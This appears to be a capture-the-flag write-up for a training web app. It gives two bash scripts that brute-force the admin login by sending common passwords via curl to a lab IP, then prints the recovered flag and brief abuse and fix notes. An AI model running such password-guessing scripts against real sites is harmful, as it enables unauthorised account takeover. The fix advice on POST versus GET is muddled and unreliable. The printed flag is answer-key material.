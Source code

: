 # Where:
    /?page=signin
# How:

-Run *brute_42_admin.sh ipAddressUsedForSite*:

    #!/bin/bash

    password=(123456 password 12345678 qwerty abc123 123456789 111111 1234567 iloveyou adobe123 123123 Admin 1234567890 letmein photoshop 1234 monkey shadow sunshine 12345 password1 princess azerty trustno1 000000)
    ip="192.168.56.101" && [[ "$1" ]]  && ip="$1"

    for i in ${password[@]}; do
        curl -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep 'flag'
    done

OR

-Run *neat_brute_42_admin.sh ipAddressUsedForSite*:
    
    #!/bin/bash

    password=(123456 password 12345678 qwerty abc123 123456789 111111 1234567 iloveyou adobe123 123123 Admin 1234567890 letmein photoshop 1234 monkey shadow sunshine 12345 password1 princess azerty trustno1 000000)
    ip="192.168.56.101" && [[ "$1" ]]  && ip="$1"

    for i in ${password[@]}; do
        if curl --silent -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep 'flag';
        then
            echo -e "\nPassword is:\t$i\n"
            exit 1
        fi
    done
    echo -e "\nPassword is not in list\n"

-curl is a tool to transfer data from or to a server, using one of the supported protocols (HTTP, HTTPS, FTP, FTPS, GOPHER, DICT, TELNET, LDAP or FILE).

- *--silent* stops the *workings* outputs so as to only give the final output.

- *-X Post* tells curl we want to make a POST request.

- *ip* is the ip address passed as an ARG.

- We POST *admin* as username and each *i* in the list of passwords as the password.

-We grep the HTML each time to only get the line with the flag.

# Flag:
    b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

# Possible abuses:

Malicious users can access other accounts.

# Fix:

Better password requirements would make a bruteforce attack a lot more difficult.
Using POST instead of GET also makes it more difficult for malicious users to see how the info is passed.